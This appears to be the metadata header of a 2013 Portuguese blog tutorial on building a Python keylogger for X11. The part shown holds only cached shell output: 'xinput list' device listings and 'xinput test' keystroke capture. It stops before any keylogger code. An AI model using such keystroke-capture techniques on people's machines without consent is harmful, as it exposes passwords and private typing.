 ```yaml
---
id: 1982
title: Como Fazer um Keylogger para o X11
date: 2013-04-01T09:20:26+00:00
author: CKPYT
excerpt: Nesse post aprendemos como fazer um keylogger em python para guardar as teclas digitadas no X11.
layout: post
guid: http://www.sawp.com.br/blog/?p=1982
permalink: /p=1982
wp-syntax-cache-content:
  - |
    a:9:{i:1;s:1510:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="sh" style="font-family:monospace;">pedro@HAL9001:~$ xinput list
    ⎡ Virtual core pointer                    	id=2	[master pointer  (3)]
    ⎜   ↳ Virtual core XTEST pointer              	id=4	[slave  pointer  (2)]
    ⎜   ↳ MosArt Optical Mouse                    	id=9	[slave  pointer  (2)]
    ⎣ Virtual core keyboard                   	id=3	[master keyboard (2)]
    ↳ Virtual core XTEST keyboard             	id=5	[slave  keyboard (3)]
    ↳ Power Button                            	id=6	[slave  keyboard (3)]
    ↳ Power Button                            	id=7	[slave  keyboard (3)]
    ↳ Hewlett-Packard Company HP USB CCID Smartcard Keyboard	id=8	[slave  keyboard (3)]</pre></td></tr></table><p class="theCode" style="display:none;">pedro@HAL9001:~$ xinput list
    ⎡ Virtual core pointer                    	id=2	[master pointer  (3)]
    ⎜   ↳ Virtual core XTEST pointer              	id=4	[slave  pointer  (2)]
    ⎜   ↳ MosArt Optical Mouse                    	id=9	[slave  pointer  (2)]
    ⎣ Virtual core keyboard                   	id=3	[master keyboard (2)]
    ↳ Virtual core XTEST keyboard             	id=5	[slave  keyboard (3)]
    ↳ Power Button                            	id=6	[slave  keyboard (3)]
    ↳ Power Button                            	id=7	[slave  keyboard (3)]
    ↳ Hewlett-Packard Company HP USB CCID Smartcard Keyboard	id=8	[slave  keyboard (3)]</p></div>
    ;i:2;s:644:
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="sh" style="font-family:monospace;">pedro@HAL9001:~$ xinput test 8
    key release 36
    key press   28
    tkey release 28
    key press   26
    ekey release 26
    key press   39
    skey release 39
    key press   28
    tkey release 28
    key press   26
    ekey release 26</pre></td></tr></table><p class="theCode" style="display:none;">pedro@HAL9001:~$ xinput test 8
    key release 36
    key press   28
    tkey release 28
    key press   26
    ekey release 26
    key press   39
    skey release 39
    key press   28
    tkey release 28
    key press   26
    ekey release 26</p></div>
    ;i:3;s:1378:
```